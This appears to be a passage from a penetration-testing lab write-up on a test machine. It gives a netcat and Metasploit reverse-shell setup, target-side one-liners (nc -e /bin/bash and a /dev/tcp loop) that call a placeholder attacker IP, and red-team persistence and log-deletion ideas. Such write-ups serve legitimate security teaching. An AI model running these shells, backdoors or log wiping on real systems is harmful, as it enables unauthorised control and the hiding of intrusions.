 For more of the details, see below.

#### Reverse Shell: ATTACKER

Use Netcat:

> `nc -l -p 9999 -vvv`

OR use Metasploit:

> `sudo msfdb init && msfconsole`

And set the Options, thusly (replacing `10.2.11.212` with your workstation IP address):

```metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.2.110.212
set LPORT 9999

exploit
```

#### Reverse Shell: TARGET

On the target machine (by-hand for testing, and then ultimately via `buildscript.sh`), connect to the listener on our attacker box with Netcat:

> `nc yyy.yyy.yyy.yyy 9999 -e /bin/bash`

However, since there are variations of `nc` and some don't allow the `-e` argument - if you get an error about that, you could use some Linux trickery with this statement:

> `exec 5<>/dev/tcp/yyy.yyy.yyy.yyy/9999 && cat <&5 | while read line; do $line 2>&5 >&5; done`

**NOTE:** Make sure to set `yyy.yyy.yyy.yyy` to the attacker IP address and `9999` to the attacker port.

[Source: https://incognitjoe.github.io/reverse-shells-for-dummies.html]

Also see: [buildscript.sh](downloads/src/buildscript.sh)


## Maintaining Access

This is a test machine. However, in a Red Team scenario, we could:

* Add SSH key to `/root/.ssh/authorized_keys`
* Create a privileged account that wouldn't draw attention (ex: `operations`).
* Install some other backdoor or service.

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.
